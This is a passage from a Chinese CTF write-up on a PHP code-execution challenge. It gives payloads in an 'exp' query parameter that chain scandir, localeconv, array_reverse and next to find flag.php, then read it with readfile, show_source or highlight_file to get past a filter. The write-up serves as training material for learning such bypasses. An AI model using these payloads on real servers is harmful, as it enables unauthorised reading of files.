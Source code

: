 *   这样的话，没办法让它输出值为 `flag.php`。

*   方法我看到三种。

*   第一种就是使数组的倒序。用`array_reverse()`函数倒序，然后用上面的next()函数指向第二个元素。

    ```
     ?exp=print_r(array_reverse(scandir(current(localeconv())))); 
    ```

![在这里插入图片描述](img/12d5c30780c2cc093ba7d64ba55b6af0.png)

![在这里插入图片描述](img/d9ed026aa5e8f49f168c232860162241.png)

*   再用函数读取文件内容即可，读文件当然首先想到`file_get_contents()` 函数，但它死在了第三层的过滤。寻找替代函数。可以用`readfile()`、`highlight_file()`、`show_source()` 函数读取。

    ```
    ?exp=print_r(readfile(next(array_reverse(scandir(current(localeconv()))))));
    ?exp=print_r(show_source(next(array_reverse(scandir(current(localeconv()))))));
    ?exp=print_r(highlight_file(next(array_reverse(scandir(current(localeconv())))))); 
    ```

![在这里插入图片描述](img/ebaa7d81722a7fbb1c01c3ba17a70147.png)

![在这里插入图片描述](img/fccc3e712fbb1d4ffc5bc94e7d768b3d.png)

![在这里插入图片描述](img/ab12da2a34f518530d0eb3404eeef4ad.png)
